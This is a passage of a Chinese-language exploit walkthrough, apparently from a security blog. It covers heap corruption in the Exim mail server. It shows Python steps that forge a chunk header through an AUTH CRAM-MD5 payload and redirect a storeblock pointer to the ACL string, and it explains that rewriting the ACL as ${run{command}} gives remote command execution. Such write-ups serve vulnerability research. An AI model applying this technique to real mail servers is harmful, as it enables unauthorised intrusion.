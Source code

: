 伪造chunk头。<br>[![](https://p3.ssl.qhimg.com/t018517e14916148185.png)](https://p3.ssl.qhimg.com/t018517e14916148185.png)

[![](https://p1.ssl.qhimg.com/t014fc768057ca1e24f.png)](https://p1.ssl.qhimg.com/t014fc768057ca1e24f.png)<br>
此时的堆布局如下图所示。<br>[![](https://p4.ssl.qhimg.com/t011e8e445ecb437db8.jpg)](https://p4.ssl.qhimg.com/t011e8e445ecb437db8.jpg)

### <a class="reference-link" name="5.6%20%E9%87%8A%E6%94%BE%E8%A2%AB%E6%94%B9%E6%8E%89%E5%A4%A7%E5%B0%8F%E7%9A%84chunk"></a>5.6 释放被改掉大小的chunk

```
ehlo(s, "a+")
```

为了不释放其他的storeblock，发送包含无效字符的信息。<br>[![](https://p4.ssl.qhimg.com/t010e95add0f91f5369.png)](https://p4.ssl.qhimg.com/t010e95add0f91f5369.png)<br>
此时的堆布局如下图所示。<br>[![](https://p3.ssl.qhimg.com/t01873be5ae0e860d27.jpg)](https://p3.ssl.qhimg.com/t01873be5ae0e860d27.jpg)

### <a class="reference-link" name="5.7%20%E5%8F%91%E9%80%81auth%E6%95%B0%E6%8D%AE%EF%BC%8C%E4%BF%AE%E6%94%B9storeblock%E7%9A%84next%E6%8C%87%E9%92%88%EF%BC%8C%E6%8C%87%E5%90%91acl%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%89%80%E5%9C%A8%E7%9A%84chunk"></a>5.7 发送auth数据，修改storeblock的next指针，指向acl字符串所在的chunk

```
docmd(s, "AUTH CRAM-MD5")
acl_chunk = p64(0x5653564c1000+0x66f0)  #acl_chunkr = &amp;heap_base + 0x66f0
payload3 = 'a'*0x2bf0 + p64(0) + p64(0x2021) + acl_chunk
docmd(s, b64encode(payload3)) # fake chunk header and storeblock next
```

0x5653564c1000是exim运行时堆的基地址。<br>[![](https://p2.ssl.qhimg.com/t017b04a7c40566108b.png)](https://p2.ssl.qhimg.com/t017b04a7c40566108b.png)<br>
exim有一组全局指针指向ACL字符串。指针在exim启动时初始化，根据配置文件进行设置。配置文件中包含acl_smtp_mail=acl_check_mail，因此指针acl_smtp_mail始终指向acl_check_mail，只要碰到MAIL FROM，exim就会执行acl检查。因此只要覆盖acl字符串为`$`{`run`{`command`}``}``，exim便会调用execv执行command命令，实现远程命令执行，而且还能绕过PIE、NX等限制。通过`x /18xg &amp;acl_smtp_mail`可以得到acl_check_mail字符串的地址，从而可以找到acl_check_mail所在chunk的地址（本例中为0x5653564c7778），我经过调试和计算，acl_check_mail字符串所在堆的地址也可以通过堆基地址加上0x66f0的偏移得到。<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01e6ee8647229af629.png)<br>
修改storeblock的next指针，指向acl字符串所在的chunk，本例中就是0x5653564c76f0。<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t015dcb4332609a8e2c.png)<br>
此时的堆布局如下图所示。<br>[![](https://p5.ssl.qhimg.com/t0111347096f61586c9.jpg)](https://p5.ssl.qhimg.com/t0111347096f61586c9.jpg)

### <a class="reference-link" name="5.8%20%E9%87%8A%E6%94%BEstoreblock%EF%BC%8C%E5%8C%85%E5%90%ABacl%E7%9A%84storeblock%E8%A2%AB%E5%9B%9E%E6%94%B6%E5%88%B0unsorted%20bin%E4%B8%AD"></a>5.8 释放storeblock，包含acl的storeblock被回收到unsorted bin中
